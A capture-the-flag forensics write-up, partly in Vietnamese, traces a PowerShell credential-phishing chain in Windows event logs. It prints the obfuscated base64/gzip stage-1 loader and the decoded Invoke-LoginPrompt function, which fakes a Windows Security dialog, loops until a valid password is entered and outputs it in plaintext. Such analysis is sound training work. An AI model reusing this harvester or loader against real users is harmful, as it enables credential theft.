

## Prompt And Pretext
### Đề bài
We obtained a large set of Windows event logs after suspicious activity.

Find the staged PowerShell credential-phishing chain. <br>
From the obfuscated stage-1, recover:

The name of the function that asks for credentials

The placeholder marker left in the script for the next action

Flag:

Format: grodno{function_marker}

Example: grodno{DoStuff_STAGE2}

### Giải
Bài cho file chứa eventlog `evtx_data.csv` dưới dạng excel. Đề bài nhắc đến kẻ tấn công đã sử dụng Powershell để tạo chuỗi tấn công lừa thông tin đăng nhập do đó tìm các sự kiện có event ID 4104 (PowerShell Script Block Logging)


<br>

Tại log 622 thì có script block text sau. Đoạn script này thực hiện giải mã base64 payload, nạp vào bộ nhớ RAM, giải nén và đọc thành chuỗi văn bản String
``` powershell
&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4sIAAlVdl0CA81UXW/aMBR996+4svJANJIfgNQHBNs6aaWIsO2hnSbXuaVeEzuyHdKI8d93YwIDTUJlfVkeLPme+3F87lEeay29Mho+6bV5xuSzWSk9t6as/IZF0mIOVxBdG+fTWqU74IOxEwJQeyWKAf+mdG4aBxnK2irf8iHweYHCIVAKWqgdHfJQ4bqECPV61AG5KYXS94e7FiXyIecxi/ZXYsBPcRbtyk6QXYiwx7ooAtJH4B3w+3BGRx0q4VxjbHhfRy79iH6GnkLPR6+L030eG+d5smwrhIQiWD4UbSCXtc5jmU6VRemNbTO0ayXRpWMpTa39jdBihSX1Y9E0o2kzbJLbh5+UfUEtSa+0VJUoJoZEffGDuwuK+5qO/ffR6EbIJ6UxZs2TKnBArNKvolC58Pjn5W7Ag5C0i4NUPIZEI0RLW2O8YUDfv1uEDNcNhaORQ+h9420LYtXt7nVWCUzO2CXgZywT8FfZJmRebJ2u6u32CbP/Mwv1nM4aCE4c9AtM7RNNSCjeMogoUNW+U1NjszfUGWGph8OCKCdmJ8IX2s+M1BzCNOyOjHSQvu/OYLHJluPF8sd8cTt5n2VbtmV///R+A6HMO3IQBQAA'))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))
```

Nội dung payload sau khi giải mã base64. Hàm `Invoke-LoginPrompt` gọi giao diện hộp thoại để yêu cầu người dùng nhập username và password, thực hiện kiểm tra input đầu vào và yêu cầu người dùng nhập lại nếu thông tin sai. Lưu thông tin thu thập được vào output và chạy vào code được ghi đè vào R{START_PROCESS}
``` powershell
function Invoke-LoginPrompt{
$cred = $Host.ui.PromptForCredential("Windows Security", "Please enter user credentials", "$env:userdomain\$env:username","")
$username = "$env:username"
$domain = "$env:userdomain"
$full = "$domain" + "\" + "$username"
$password = $cred.GetNetworkCredential().password
Add-Type -assemblyname System.DirectoryServices.AccountManagement
$DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext([System.DirectoryServices.AccountManagement.ContextType]::Machine)
while($DS.ValidateCredentials("$full","$password") -ne $True){
    $cred = $Host.ui.PromptForCredential("Windows Security", "Invalid Credentials, Please try again", "$env:userdomain\$env:username","")
    $username = "$env:username"
    $domain = "$env:userdomain"
    $full = "$domain" + "\" + "$username"
    $password = $cred.GetNetworkCredential().password
    Add-Type -assemblyname System.DirectoryServices.AccountManagement
    $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext([System.DirectoryServices.AccountManagement.ContextType]::Machine)
    $DS.ValidateCredentials("$full", "$password") | out-null
    }
 $output = $newcred = $cred.GetNetworkCredential() | select-object UserName, Domain, Password
 $output
 R{START_PROCESS}
}
Invoke-LoginPrompt
```

Function: `Invoke-LoginPrompt` <br>
Placeholder marker: `R{START_PROCESS}`

FLAG: **grodno{Invoke-LoginPrompt_R{START_PROCESS}}**

